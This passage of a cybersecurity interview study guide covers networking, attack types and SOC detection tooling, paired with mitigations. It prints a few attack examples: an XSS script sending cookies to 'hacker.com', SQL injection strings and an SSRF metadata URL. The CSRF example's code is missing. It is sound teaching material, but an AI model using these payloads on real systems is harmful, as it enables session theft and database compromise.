| 7. Application | User-facing network services | HTTP, DNS, SMTP, SSH | Phishing, SQL injection, malicious requests |
| 6. Presentation | Data formatting and encryption | TLS, encoding formats | SSL stripping, weak encryption handling |
| 5. Session | Session creation and management | RPC, session handling | Session hijacking |
| 4. Transport | End-to-end delivery | TCP, UDP | SYN floods, port scanning |
| 3. Network | Logical addressing and routing | IP, ICMP | IP spoofing, routing abuse |
| 2. Data link | Local delivery using MAC addresses | Ethernet, Wi-Fi | ARP poisoning, MAC spoofing |
| 1. Physical | Transmission of bits over media | Cable, fiber, radio | Jamming, cable tapping |

#### Common Attacks by OSI Layer

| Layer | Attack Type | Description |
| --- | --- | --- |
| **7. Application** | Cross-Site Scripting (XSS), SQLi, HTTP Flood | Exploiting vulnerabilities in the software logic or sending overwhelming HTTP requests. |
| **6. Presentation** | SSL Stripping, Ransomware (Encryption) | Forcing the connection to drop from HTTPS to HTTP, or malicious encryption of data. |
| **5. Session** | Session Hijacking, Man-in-the-Middle (MitM) | Stealing active session cookies to impersonate a legitimate authenticated user. |
| **4. Transport** | SYN Flood, UDP Flood, Port Scanning | Exhausting server connection state tables or mapping exposed services. |
| **3. Network** | Ping of Death, IP Spoofing, Route Poisoning | overwhelming routers/firewalls with fragmented ICMP packets or spoofing source IPs. |
| **2. Data Link** | ARP Spoofing, MAC Flooding, VLAN Hopping | Poisoning the ARP cache to intercept LAN traffic, or overwhelming switch MAC tables. |
| **1. Physical** | Wiretapping, RF Jamming, USB Drops | Physically cutting cables, jamming Wi-Fi signals, or plugging in malicious USB rubber duckies. |

#### TCP/IP mapping

| OSI model | TCP/IP model |
| --- | --- |
| Application, presentation, session | Application |
| Transport | Transport |
| Network | Internet |
| Data link and physical | Network access |

The OSI model is more detailed for teaching and troubleshooting. TCP/IP is the more practical model for explaining how network traffic actually moves.

#### TCP versus UDP

| Feature | TCP | UDP |
| --- | --- | --- |
| Connection | Connection-oriented | Connectionless |
| Reliability | Reliable delivery and retransmission | Best-effort delivery |
| Ordering | Preserves order | Order is not guaranteed |
| Typical uses | Web, email, remote administration, file transfer | Streaming, VoIP, DNS, gaming |

#### TCP three-way handshake

TCP connections normally begin with three steps:

1. SYN: the client requests a connection.
2. SYN-ACK: the server acknowledges and responds.
3. ACK: the client confirms and the session begins.

This matters in security because attacks such as SYN floods abuse this connection setup process.

#### Common interview questions

###### At what layer does ping operate?
> **Answer:** Ping uses ICMP, which is typically discussed at the network layer, or Layer 3, because it operates directly over IP rather than using transport-layer ports.

###### What is the difference between a hub, a switch, and a router?
> **Answer:** A hub repeats traffic to every connected device. A switch forwards traffic within a local network using MAC addresses. A router forwards traffic between different networks using IP addresses.

###### What is the order of volatility in forensics?
> **Answer:** It is the order in which evidence should be collected based on how quickly it disappears, usually starting with volatile data such as memory and active network state before moving to disks and long-term logs.

### Identity — AAA, DNS, DHCP

AAA, DNS, and DHCP are core networking concepts that come up constantly in cybersecurity interviews. AAA controls identity and access, DNS resolves names to IP addresses, and DHCP assigns IP configuration automatically.
{ .page-lead }

!!! note "Interview answer"
    *"AAA stands for Authentication, Authorization, and Accounting. DNS translates domain names into IP addresses. DHCP automatically assigns IP addresses and related network settings to devices. Together, they help users connect, authenticate, and communicate on a network."*

#### AAA

AAA is a security framework used to control and monitor access.

| Pillar | What it means | Example |
| --- | --- | --- |
| Authentication | Verifying identity | Password, OTP, smart card, biometric |
| Authorization | Deciding what the user can do | RBAC, ACLs, admin vs normal user |
| Accounting | Recording activity | Login history, command logs, session records |

##### RADIUS vs TACACS+

| Protocol | Common use | Key difference |
| --- | --- | --- |
| RADIUS | Wi-Fi, VPN, user network access | Common for user access control |
| TACACS+ | Router and switch administration | Often preferred for device administration |

#### DNS

DNS, or Domain Name System, translates human-readable names into IP addresses.

##### Common DNS record types

| Record | Purpose | Example |
| --- | --- | --- |
| A | Maps a name to an IPv4 address | `example.com` to `203.0.113.10` |
| AAAA | Maps a name to an IPv6 address | `example.com` to an IPv6 address |
| CNAME | Alias for another name | `docs.company.com` to another hostname |
| MX | Mail server record | Routing email for a domain |
| TXT | Text data such as SPF or DKIM | Email security records |

##### Common DNS threats

- DNS spoofing
- Cache poisoning
- DNS tunneling
- DNS hijacking

#### DHCP

DHCP, or Dynamic Host Configuration Protocol, automatically gives devices network settings such as an IP address, subnet mask, default gateway, and DNS server.

##### The DORA process

1. Discover
2. Offer
3. Request
4. Acknowledge

##### Common DHCP threats

- Rogue DHCP server
- DHCP starvation
- DHCP spoofing

#### Common interview questions

###### What is a DHCP lease?
> A DHCP lease is the amount of time a device is allowed to use an assigned IP address before it renews or returns it to the pool.

###### What is the difference between an authoritative and a recursive DNS server?
> A recursive server looks up the answer on behalf of the client. An authoritative server holds the final records for a domain.

### Security — VPN, Firewall, Proxy

VPNs, firewalls, and proxies all deal with network traffic, but they solve different problems. A firewall filters traffic, a VPN encrypts traffic, and a proxy forwards traffic on behalf of a client or server.
{ .page-lead }

!!! note "Interview answer"
    *"A firewall controls and filters network traffic based on rules. A VPN creates an encrypted tunnel over an untrusted network. A proxy acts as an intermediary between a client and a destination. They are different controls, but they often work together in network security."*

#### VPN

A VPN, or Virtual Private Network, creates a secure encrypted tunnel between two points over the internet.

##### Why organizations use VPNs

- Secure remote employee access
- Protect traffic on untrusted networks such as public Wi-Fi
- Connect branch offices securely
- Hide internal addressing from the public internet

##### Common VPN types

| Type | Best use case | Notes |
| --- | --- | --- |
| Remote Access VPN | Individual users connecting to company resources | Common for remote work |
| Site-to-Site VPN | Connecting two networks or offices | Often built with IPsec |
| SSL or TLS VPN | Browser-based or application-level secure access | Often easier for remote users |

#### Firewall

A firewall is a security control that monitors and filters traffic based on predefined rules.

##### Common firewall types

| Type | What it checks | Example |
| --- | --- | --- |
| Packet Filtering | IP, port, and protocol | Basic ACL filtering |
| Stateful Inspection | Tracks connection state | Enterprise perimeter firewall |
| Application Layer Firewall | Inspects application traffic | WAF filtering HTTP requests |
| Next-Generation Firewall | Adds deep inspection, app awareness, IDS/IPS features | Palo Alto, Fortinet |

##### Real-world firewall uses

- Blocking inbound RDP from the internet
- Allowing HTTPS but denying Telnet
- Restricting traffic between internal network segments
- Blocking malicious IP addresses during incident response

#### Proxy

A proxy sits between a client and a destination and forwards requests on behalf of someone else.

##### Types of proxy

| Type | Sits in front of | Main purpose |
| --- | --- | --- |
| Forward Proxy | Users or clients | Filtering, anonymity, caching |
| Reverse Proxy | Servers or applications | Load balancing, SSL offload, hiding origin servers |
| Transparent Proxy | User traffic without manual client setup | Filtering and caching |

#### VPN versus firewall versus proxy

| Feature | VPN | Firewall | Proxy |
| --- | --- | --- | --- |
| Encrypts traffic | Yes | No | Usually no |
| Filters traffic | Limited | Yes | Yes, often at application level |
| Hides client IP | Yes | No | Often yes |
| Protects a full network path | Yes | Yes | No |
| Common use case | Secure remote access | Traffic control and protection | Web filtering and intermediary access |

#### How they work together

In a real environment, these controls often appear together:

1. A remote employee connects through a VPN.
2. Their traffic passes through a firewall that enforces security rules.
3. Web access may be routed through a proxy for filtering, inspection, or caching.

#### Common interview questions

###### What is a DMZ?
> A DMZ, or demilitarized zone, is a separate network segment used for internet-facing systems such as web or mail servers. It helps isolate exposed services from the internal network.

###### Does a VPN stop malware?
> No. A VPN encrypts traffic, but it does not stop a malicious file from being downloaded. You still need controls like EDR, email filtering, and web security.

###### What is the difference between a forward proxy and a reverse proxy?
> A forward proxy represents the client, while a reverse proxy represents the server.

</section>

<section class="pdf-guide-section" data-pdf-section-group="major-attacks-directory" data-pdf-section-title="🏴‍☠️ Major Attacks Directory" markdown="1">

## 🏴‍☠️ Major Attacks Directory

### Vulnerabilities & Risk

These terms are closely related, but they are not interchangeable. Knowing the difference helps you describe how security problems are found, prioritized, and addressed.
{ .page-lead }

!!! note "Interview answer"
    *"A vulnerability is a weakness in a system, process, or configuration. A threat is something that can take advantage of that weakness. An exploit is the method or code used to trigger the weakness. Risk is the likelihood and impact of that threat successfully causing harm."*

#### Core terms

| Term | Meaning | Example |
| --- | --- | --- |
| Vulnerability | A weakness that could be abused | Unpatched software or weak access control |
| Threat | A person, group, event, or condition that could cause harm | Ransomware operator, insider, or exposed internet service |
| Exploit | The technique or code used to abuse a vulnerability | SQL injection payload or remote code execution exploit |
| Risk | The likelihood and impact of harm | High risk of outage, data loss, or compromise |

#### Risk in simple terms

Risk is often summarized like this:

`Risk = Threat x Vulnerability x Impact`

That expression is simplified, but it is useful in interviews because it shows that risk depends on both exposure and business consequence.

#### CVE and CVSS

When a publicly known vulnerability is documented, it often receives a CVE identifier such as `CVE-2021-44228`. Its severity is commonly described with CVSS scores.

| CVSS range | Severity |
| --- | --- |
| 0.1 to 3.9 | Low |
| 4.0 to 6.9 | Medium |
| 7.0 to 8.9 | High |
| 9.0 to 10.0 | Critical |

CVSS is useful, but teams should also consider asset value, exploit activity, internet exposure, and business impact.

#### Zero-day and n-day vulnerabilities

| Type | Meaning | Main challenge |
| --- | --- | --- |
| Zero-day | The vulnerability is unknown to the vendor or has no available fix | Defenders cannot rely on a normal patch yet |
| N-day | The vulnerability is known and usually has a patch available | Attackers may move quickly before organizations patch |

#### Vulnerability management lifecycle

Most organizations handle vulnerabilities through a repeatable process:

1. Discover assets and scan for weaknesses.
2. Prioritize based on severity, exposure, and business impact.
3. Remediate by patching, reconfiguring, replacing, or compensating.
4. Verify that the fix worked.
5. Report and track progress over time.

#### Common interview questions

###### What is an exposed attack surface?
> **Answer:** The attack surface is the collection of entry points an attacker can try to use, such as public IP addresses, open ports, internet-facing applications, exposed credentials, and weak user workflows.

###### How do you reduce risk if a system cannot be patched?
> **Answer:** Use compensating controls such as network segmentation, strict firewall rules, IPS signatures, application allowlisting, limited access, and closer monitoring until the system can be replaced or remediated properly.

###### What is the difference between a vulnerability assessment and a penetration test?
> **Answer:** A vulnerability assessment focuses on identifying and listing weaknesses, often at scale. A penetration test goes further by attempting controlled exploitation to show whether those weaknesses can actually be used to gain access or cause impact.

### Cyber Threats Landscape

Malware is any software designed to harm, disrupt, spy on, extort, or gain unauthorized access to a system. Interviewers often expect you to distinguish the major malware types and explain how they spread or what they are meant to do.
{ .page-lead }

!!! note "Interview answer"
    *"Malware is an umbrella term for malicious software. Different types are usually identified by how they spread, how they enter the system, or what they do after infection. Common examples include viruses, worms, trojans, ransomware, spyware, rootkits, and botnets."*

#### Common malware types

| Type | What it means | Example |
| --- | --- | --- |
| Virus | Attaches to a file and spreads when that file is run | ILOVEYOU |
| Worm | Self-replicates and spreads automatically over networks | WannaCry |
| Trojan | Disguises itself as legitimate software | Zeus |
| Ransomware | Encrypts files and demands payment | REvil, LockBit |
| Spyware | Secretly monitors the victim | Pegasus |
| Adware | Displays unwanted ads and may track behavior | Fireball |
| Rootkit | Hides attacker activity and gives stealthy access | Sony BMG rootkit |
| Botnet | Many infected systems controlled remotely | Mirai |

#### Important distinctions

##### Virus vs Worm

- A virus usually needs user action to spread.
- A worm spreads by itself, often across networks.

##### Trojan vs Backdoor

- A trojan is how the attacker tricks the user into running it.
- A backdoor is the hidden access the attacker gets afterward.

##### Ransomware

Ransomware is one of the most disruptive malware types because it affects both availability and, in many cases, confidentiality if data is also stolen before encryption.

#### How organizations defend against malware

- EDR and antivirus
- Email and web filtering
- Patching and vulnerability management
- Network segmentation
- Least privilege
- Offline or protected backups

#### Related threats beyond malware

- Phishing
- Social engineering
- DDoS
- Man-in-the-middle attacks
- Zero-day exploitation

#### Common interview questions

###### What is the difference between a virus and a trojan?
> A virus attaches itself to another file and spreads when the file is executed. A trojan pretends to be legitimate software so the user installs it voluntarily.

###### What is fileless malware?
> Fileless malware operates mainly in memory and often abuses legitimate tools such as PowerShell or WMI, which makes it harder for traditional file-based antivirus to detect.

### Social Engineering

Social engineering attacks target people instead of software flaws. The attacker’s goal is to manipulate trust, urgency, fear, or routine behavior so a victim reveals information, clicks a link, opens a file, or grants access.
{ .page-lead }

!!! note "Interview answer"
    *"Social engineering is the use of deception and psychological manipulation to make a person reveal sensitive information or perform an unsafe action. Phishing is one of the most common examples because it tricks users through email, messages, or fake websites rather than by directly exploiting software."*

#### Why these attacks work

Attackers often rely on a few recurring tactics:

| Tactic | What it looks like |
| --- | --- |
| Authority | Pretending to be a manager, executive, bank, or IT team |
| Urgency | Claiming an account will be locked or payment is overdue |
| Fear | Threatening a penalty, breach, or disciplinary action |
| Curiosity | Offering a document, invoice, or confidential file |
| Familiarity | Mimicking a coworker, vendor, or internal process |

#### Common phishing types

| Type | Meaning | Example |
| --- | --- | --- |
| Phishing | Broad message sent to many users | Fake bank or Microsoft 365 email |
| Spear phishing | Targeted message aimed at a person or team | Email crafted for HR, finance, or a manager |
| Whaling | Spear phishing aimed at executives | Fake legal notice or urgent wire instruction |
| Smishing | Phishing through SMS | Delivery message with a malicious link |
| Vishing | Phishing through phone calls | Caller pretending to be support or a bank |
| Business email compromise | Abuse of a real or spoofed business email account | Fake invoice or payment redirection |

#### Other social engineering techniques

| Technique | Meaning | Example |
| --- | --- | --- |
| Pretexting | Inventing a believable scenario to request information | Fake IT support call |
| Tailgating | Entering a restricted area by following an authorized person | Walking through a badge door behind an employee |
| Baiting | Leaving something tempting for the victim to use | Malicious USB drive labeled with payroll data |
| Quid pro quo | Offering help or a reward in exchange for information | "I can fix your laptop if you share your credentials" |

#### How organizations reduce the risk

- run security awareness training regularly
- use MFA so a stolen password is not enough
- improve email filtering and domain protections such as SPF, DKIM, and DMARC
- require stronger approval workflows for payments and sensitive requests
- use EDR and web protections in case a user clicks anyway

#### Common interview questions

###### What is the difference between phishing and spear phishing?
> **Answer:** Phishing is a broad attack sent to many people, while spear phishing is tailored to a specific person or group using details that make the message more believable.

###### How do you reduce the risk of a whaling attack?
> **Answer:** Use executive awareness training, stronger email filtering, MFA, and approval controls for sensitive actions such as wire transfers, access changes, or legal document handling.

###### What is pretexting?
> **Answer:** Pretexting is when an attacker invents a believable story or role to persuade a victim to share information or perform an action they would normally refuse.

### Cross-Site Scripting (XSS)

!!! note "What is XSS?"
    Cross-Site Scripting (XSS) is a client-side vulnerability where an attacker injects malicious JavaScript into a trusted website. When a victim visits the site, their browser executes the script, allowing the attacker to steal session cookies, capture keystrokes, or redirect the user.

##### How it Works
1. **Reflected XSS:** The malicious payload is embedded in a URL link. When the victim clicks the link, the server reflects the script back to the browser immediately.
2. **Stored XSS:** The payload is permanently saved on the server (like in a malicious forum post). Any user who visits that page will automatically execute the script.
3. **DOM-based XSS:** The vulnerability exists purely in the client-side JavaScript executing in the Document Object Model, without needing a server response.

##### Real-World Example
An attacker posts a comment on a blog: `<script>fetch('http://hacker.com/steal?cookie=' + document.cookie)</script>`. Every person who loads that blog post gets their session cookies silently sent to the attacker.

##### How to Mitigate
*   **Input Validation:** Filter out strict HTML tags on user input.
*   **Output Encoding:** Automatically escape all user-generated content so `<script>` turns into safe `&lt;script&gt;` blocks before rendering on the page.
*   **Content Security Policy (CSP):** Implement strict CSP headers to forbid the browser from executing unexpected inline scripts.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Concept:** Attacker injects malicious JavaScript into a web page that instantly executes in another user's browser.
    *   **Impact:** Stealing session cookies, keystroke logging, and hijacking user sessions.
    *   **Fix:** Strict output encoding, input validation, and implementing strong Content Security Policies (CSP).

### SQL Injection (SQLi)

!!! note "What is SQL Injection?"
    SQL Injection (SQLi) is a critical server-side vulnerability where an attacker manipulates a web application's database query by injecting malicious SQL code into input fields. This allows them to view, modify, or delete sensitive database contents.

##### How it Works
If an application takes a username from a login form and directly drops it into a query like `SELECT * FROM users WHERE username = '$user'`, an attacker can input `' OR 1=1 --`.
The resulting query becomes `SELECT * FROM users WHERE username = '' OR 1=1 --'`, which always evaluates to true, instantly bypassing authentication.

##### Real-World Example
An attacker visits an e-commerce URL like `shop.com/item?id=5` and changes it to `shop.com/item?id=5 UNION SELECT username, password FROM admin_users`. The web page then accidentally dumps the entire password table onto the screen.

##### How to Mitigate
*   **Parameterized Queries (Prepared Statements):** This is the ultimate defense. It forces the database engine to treat the user's input strictly as string text, never as executable code.
*   **Input Validation:** Use strict allow-lists for expected input (like ensuring an ID is purely numeric).
*   **Least Privilege:** Ensure the database user account used by the web application only has read access to the tables it strictly needs, not overall admin rights.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Concept:** Injecting malicious SQL characters into a web form to manipulate backend database queries.
    *   **Impact:** Bypassing login screens, dumping entire customer databases, and deleting data.
    *   **Fix:** Always use Parameterized Queries (Prepared Statements) so input is absolutely never treated as code.

### Cross-Site Request Forgery (CSRF)

!!! note "What is CSRF?"
    Cross-Site Request Forgery forces an authenticated user to execute unwanted actions on a web application where they are currently authenticated. Because the victim's browser automatically sends their active session cookies, the server believes the request is legitimate.

##### How it Works
The attacker crafts a hidden link or form that targets a state-changing action (like changing a password or transferring money). They then trick the victim (who is already logged into their bank) into clicking the link or simply opening a malicious webpage containing the hidden request.

##### Real-World Example
You are logged into `bank.com`. An attacker sends you an email with a hidden image tag: ``. When you open the email, your browser automatically tries to load the image, unknowingly authorizing a heavy wire transfer using your valid session cookie.

##### How to Mitigate
*   **Anti-CSRF Tokens:** The server generates a unique, unpredictable, and hidden token for every active session. Any state-changing request must include this token. The attacker cannot guess it, so the forgery fails.
*   **SameSite Cookie Attribute:** Set the `SameSite=Strict` or `Lax` flag on session cookies, which strictly prevents the browser from sending cookies along with malicious cross-site requests.
*   **Re-Authentication:** For highly sensitive actions (changing passwords, transferring large funds), require the user to actively re-type their password.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Concept:** Tricking a logged-in user's browser into secretly executing an unwanted action on a trusted site.
    *   **Impact:** Unauthorized fund transfers, password changes, and account takeovers.
    *   **Fix:** Implement unique, unpredictable Anti-CSRF tokens for every form and utilize the SameSite cookie attribute.

### Server-Side Request Forgery (SSRF)

!!! note "What is SSRF?"
    Server-Side Request Forgery is a vulnerability where an attacker forces a backend server to make outward HTTP requests on their behalf. This is extremely dangerous in cloud environments, as it allows attackers to read internal cloud metadata and pivot into the internal network.

##### How it Works
If a web application has a feature that fetches remote images (e.g., pulling a profile picture from a URL), an attacker can supply an internal IP address instead. The server blindly fetches that internal resource and returns the result to the attacker, bypassing external firewalls.

##### Real-World Example
An attacker exploits a PDF generator on a website. Instead of giving it a normal URL, they input `http://169.254.169.254/latest/meta-data/` (the AWS Cloud Metadata endpoint). The server fetches this URL and accidentally displays the company's AWS root API credentials back to the attacker. (This was the exact attack path used in the massive Capital One breach).

##### How to Mitigate
*   **Strict Allow-Lists:** Only allow the server to fetch URLs from a specific, hardcoded list of trusted domains.
*   **Network Segmentation:** Prevent the web server from being able to physically route to internal databases, administrative panels, or cloud metadata endpoints.
*   **Cloud Metadata Protections:** Enforce AWS IMDSv2, which requires a specific token header to fetch metadata, completely blocking basic SSRF attempts.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Concept:** Forcing a backend web server to make an HTTP request to an internal system on the attacker's behalf.
    *   **Impact:** Stealing internal cloud API keys (AWS Metadata), bypassing firewalls, and pivot scanning.
    *   **Fix:** Use strict URL allow-lists, disable internal routing for the web app, and enforce AWS IMDSv2.

### Man-in-the-Middle (MitM)

!!! note "What is MitM?"
    A Man-in-the-Middle (MitM) attack occurs when an attacker secretly intercepts, relays, and possibly alters the communication between two parties who believe they are directly communicating with each other. 

##### How it Works
The attacker positions themselves between the client and the server (often utilizing an open or compromised Wi-Fi network). Instead of traffic flowing from `User -> Server`, the traffic routes `User -> Attacker -> Server`.

##### Real-World Example
An attacker sets up a fake open Wi-Fi hotspot at a coffee shop named "Free Public Wi-Fi". When a user connects and attempts to log into their bank, the attacker performs an **SSL Stripping** attack. They downgrade the connection from HTTPS to HTTP, allowing them to read the user's banking password in pure plaintext.

##### How to Mitigate
*   **HTTPS Everywhere:** Enforce strict HTTPS encryption across all applications to ensure intercepted traffic is unreadable gibberish.
*   **HSTS (HTTP Strict Transport Security):** This forces browsers to *only* connect via HTTPS, explicitly preventing SSL Stripping downgrade attacks.
*   **VPN Tunnels:** Using a Corporate Virtual Private Network encrypts your entire traffic stream, shielding it completely from local Wi-Fi attackers.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Concept:** Secretly intercepting communication between a user and a server on a local network.
    *   **Impact:** Stealing plaintext passwords, session hijacking, and altering messages in transit.
    *   **Fix:** Enforce strong encryption via HTTPS, implement HSTS, and use secure VPN tunnels on public networks.

### ARP Spoofing (Poisoning)

!!! note "What is ARP Spoofing?"
    ARP Spoofing is a critical Layer 2 network attack where a malicious hacker sends fake Address Resolution Protocol (ARP) messages onto a Local Area Network (LAN). The goal is to secretly associate the attacker's MAC address with the IP address of the default gateway (router).

##### How it Works
Computers on a LAN use ARP to translate IP addresses into physical MAC addresses. Because ARP natively lacks any authentication, an attacker can broadcast a lie: *"Hey everyone, I am the Router!"* 
All the victim computers update their ARP cache and start sending their internet traffic directly to the attacker instead of the real router.

##### Real-World Example
An employee logs onto their corporate building's internal network. An attacker inside the building poisons the ARP tables of the employee's laptop and the floor's switch. The attacker now passively intercepts and reads all unencrypted data leaving the laptop before seamlessly forwarding it to the real router. (This is a classic enabler for Man-in-the-Middle attacks).

##### How to Mitigate
*   **Dynamic ARP Inspection (DAI):** Configure enterprise network switches to automatically inspect and validate all incoming ARP packets and drop malicious/fake ones.
*   **Static ARP Tables:** For critical internal servers, manually hardcode the IP-to-MAC mapping so it can never be dynamically poisoned.
*   **Port Security:** Enable strict MAC address limiting on physical switch ports to prevent attackers from plugging in rogue devices.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Concept:** Sending fake ARP messages on a local network to trick computers into sending their traffic to the attacker.
    *   **Impact:** Enables Man-in-the-Middle (MitM) traffic interception, session hijacking, and local network DoS.
    *   **Fix:** Enable Dynamic ARP Inspection (DAI) on corporate switches and use Static ARP tables for highly critical servers.

### Denial of Service (DoS)

!!! note "What is DoS/DDoS?"
    A Denial of Service (DoS) attack aims to shut down a machine or network, making it inaccessible to its intended users. A Distributed Denial of Service (DDoS) utilizes a massive botnet of thousands of infected computers to completely overwhelm the target with junk traffic.

##### How it Works
1. **Volumetric Attacks:** The attacker floods the target's network bandwidth with massive amounts of data (e.g., UDP floods or ICMP floods).
2. **Protocol Attacks:** The attacker consumes actual server resources, state tables, or firewalls (e.g., TCP SYN floods).
3. **Application Layer (Layer 7):** The attacker sends thousands of seemingly legitimate HTTP GET/POST requests that crash the backend web server or database (e.g., HTTP Floods).

##### Real-World Example
An attacker rents an "IoT Botnet" made up of 100,000 compromised smart cameras. They point the botnet at a competitor's small e-commerce website, sending 50 Gigabits of traffic per second. The web server crashes instantly, costing the business thousands of dollars in lost sales.

##### How to Mitigate
*   **Edge Scrubbing Networks:** Use cloud-based anti-DDoS providers (like Cloudflare or Akamai) that act as massive sponges to absorb and filter out junk traffic far away from your physical servers.
*   **Rate Limiting:** Implement strict WAF rules limiting the number of HTTP requests a single IP can make per second.
*   **Anycast Routing:** Scatter incoming traffic globally across a distributed network of servers so no single location is overwhelmed.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Concept:** Overwhelming a website or server with massive amounts of junk traffic to intentionally crash it.
    *   **Impact:** Complete service outage, loss of revenue, and massive network downtime.
    *   **Fix:** Route traffic through global Cloud Anti-DDoS providers (Cloudflare), implement strict rate-limiting, and use Anycast routing.

</section>

<section class="pdf-guide-section" data-pdf-section-group="detection-defense" data-pdf-section-title="🛡️ Detection & Defense" markdown="1">

## 🛡️ Detection & Defense

### IDS & IPS

An IDS, or Intrusion Detection System, monitors activity and raises alerts when it sees suspicious behavior. An IPS, or Intrusion Prevention System, goes a step further by blocking or stopping that activity automatically.
{ .page-lead }

!!! note "Interview answer"
    *"An IDS detects suspicious traffic or behavior and alerts analysts, while an IPS is placed inline and can actively block malicious traffic in real time. IDS is passive monitoring, IPS is active prevention."*

#### IDS versus IPS

| Feature | IDS | IPS |
| --- | --- | --- |
| Main role | Detect and alert | Detect and block |
| Position | Out-of-band or monitoring mode | Inline with traffic |
| Response style | Passive | Active |
| Risk | May miss threats if no one responds | May block legitimate traffic if misconfigured |

#### Common types

| Type | Meaning | Example |
| --- | --- | --- |
| NIDS | Network-based intrusion detection | Snort, Zeek |
| HIDS | Host-based intrusion detection | OSSEC |
| NIPS | Network-based intrusion prevention | Cisco Firepower, Suricata inline |
| HIPS | Host-based intrusion prevention | Endpoint prevention features on hosts |

#### Detection approaches

##### Signature-based

Looks for known bad patterns. Good for known attacks, but weak against zero-days.

##### Anomaly-based

Looks for behavior that deviates from the normal baseline. Better for unknown threats, but can create more false positives.

#### Common interview questions

###### Where is an IPS placed?
> An IPS is typically placed inline so that traffic must pass through it before reaching the protected system.

###### What is a SPAN port?
> A SPAN port, or port mirroring, is a switch port that receives a copy of network traffic so a monitoring tool such as a NIDS can inspect it without sitting inline.

### SIEM & SOAR

A SIEM is the central nervous system of a security programme — it collects, correlates, and alerts on log data from across the environment. SOAR extends that by automating the response actions that analysts would otherwise perform by hand.
{ .page-lead }

!!! note "Interview answer"
    *"A SIEM aggregates logs from all sources, correlates events using rules, and surfaces alerts for analysts to investigate. SOAR takes those alerts and triggers automated playbooks — isolating hosts, creating tickets, enriching indicators, and notifying teams — reducing manual workload and speeding up response."*

#### SIEM — Security Information and Event Management

##### What it does

A SIEM ingests logs from firewalls, servers, endpoints, cloud services, identity systems, and applications. It normalises them into a common format, applies correlation rules to link related events, and generates alerts when suspicious patterns emerge.

| Capability | Description |
|-----------|-------------|
| Log collection | Centralised ingestion from all sources — syslog, API, agent, or cloud connector |
| Normalisation | Converting diverse log formats into a searchable common schema |
| Correlation | Linking events across sources to detect multi-step attack patterns |
| Alerting | Firing on rules or thresholds — e.g. brute force, impossible travel |
| Search & investigation | Full log search for threat hunting and incident analysis |
| Compliance reporting | Log retention and audit trails for PCI DSS, ISO 27001, and others |

##### Real-world example

A SIEM rule fires when the same user account attempts to log in from two countries within 10 minutes. The rule correlates an Azure AD sign-in log with a VPN access log, identifies the impossible travel anomaly, and raises a high-priority alert.

##### Common SIEM platforms

| Platform | Notes |
|---------|-------|
| Splunk Enterprise Security | Market leader; powerful search language (SPL); on-prem and cloud |
| Microsoft Sentinel | Cloud-native; deep integration with Microsoft 365 and Azure |
| IBM QRadar | Enterprise SIEM with strong network flow analysis |
| Elastic SIEM | Open-source stack with Kibana and detection rules |
| Google Chronicle | Cloud-scale SIEM with fast retrohunt across years of data |

##### Key SIEM concepts

- **Use case**: A specific detection scenario the SIEM is tuned to find — e.g. lateral movement, admin account misuse
- **Detection rule**: Logic that triggers an alert when event patterns match known bad behaviour
- **MTTD**: Mean Time to Detect — how long from attacker action to alert
- **False positive**: Alert that fires on benign activity; tuning reduces alert fatigue
- **Log source coverage**: The breadth of telemetry feeding the SIEM — gaps here mean blind spots

---

#### SOAR — Security Orchestration, Automation, and Response

##### What it does

SOAR platforms automate repetitive response tasks triggered by SIEM alerts or other signals. They connect to security tools via APIs and execute playbooks without requiring a human at every step.

| Capability | Description |
|-----------|-------------|
| Orchestration | Coordinating actions across SIEM, EDR, ticketing, firewall, and identity tools |
| Automation | Running playbooks automatically — enrich IP, isolate host, create ticket, notify analyst |
| Case management | Tracking incident timelines, evidence, and escalation status |
| Analyst-assisted | Some steps are human decisions; SOAR presents enriched context to speed decisions |

##### How SIEM and SOAR work together

```
SIEM alert fired
      │
      ▼
SOAR playbook triggered
      │
      ├── Enrich IP against threat intel
      ├── Check user's recent activity in IdP logs
      ├── Query EDR for process tree on the host
      ├── Create Jira ticket with all findings
      └── If high confidence → auto-isolate endpoint
```

##### Common SOAR platforms

| Platform | Notes |
|---------|-------|
| Palo Alto Cortex XSOAR | Market leader; 700+ integrations; rich playbook builder |
| Splunk SOAR | Tight SIEM integration; formerly Phantom |
| Microsoft Sentinel + Logic Apps | Cloud-native automation within Sentinel |
| IBM Resilient | Enterprise case management with automation |
| Swimlane | Low-code playbooks; strong audit trail |

#### Common interview questions

###### What is the difference between SIEM and SOAR?
> A SIEM collects, correlates, and alerts on security data. SOAR automates the response to those alerts — running playbooks, enriching context, and coordinating actions across tools. SIEM is detection; SOAR is automated response.

###### What causes alert fatigue?
> Alert fatigue happens when analysts receive so many low-quality or duplicate alerts that they start ignoring or missing real ones. The solution is to tune detection rules, correlate related alerts, and use SOAR to auto-close confirmed false positives.

###### What is a SOAR playbook?
> A playbook is an automated workflow that defines the exact steps to take in response to a specific type of alert — for example, a phishing playbook might extract links, detonate them in a sandbox, block the sender domain, and notify the user's manager.

### SOC — Security Operations

The SOC is the team and operational structure responsible for monitoring an organisation's environment 24/7, investigating security events, and coordinating response. It is not a tool — it is a function made up of people, processes, and technology working together.
{ .page-lead }

!!! note "Interview answer"
    *"A SOC is the team that monitors alerts from the SIEM and other sources, investigates suspicious activity, and responds to confirmed incidents. It operates in tiers — L1 analysts triage and filter, L2 go deeper on confirmed issues, and L3 handle advanced hunting and complex incidents."*

#### SOC Structure & Tiers

| Tier | Role | Main Responsibility |
|------|------|----------------------|
| L1 Analyst | Alert Triage | Review incoming alerts, filter false positives, escalate real events |
| L2 Analyst | Investigation | Investigate escalated events, correlate evidence, determine scope |
| L3 Analyst / Threat Hunter | Advanced Analysis | Hunt for hidden threats, create detection rules, handle complex incidents |
| Incident Responder | Containment & Recovery | Lead active incidents — isolate, eradicate, restore |
| SOC Manager | Operations & Reporting | Manage team, track KPIs, report risk posture to leadership |

#### SOC Models

| Model | Description | Best For |
|-------|-------------|---------|
| Internal SOC | In-house team operating within the organisation | Large enterprises with mature security |
| MSSP | Managed Security Service Provider running SOC externally | Organisations without in-house capability |
| Hybrid SOC | Internal team supported by a managed service | Mid-sized organisations building maturity |
| Virtual SOC | Distributed team with no physical SOC floor | Remote-first or budget-constrained setups |

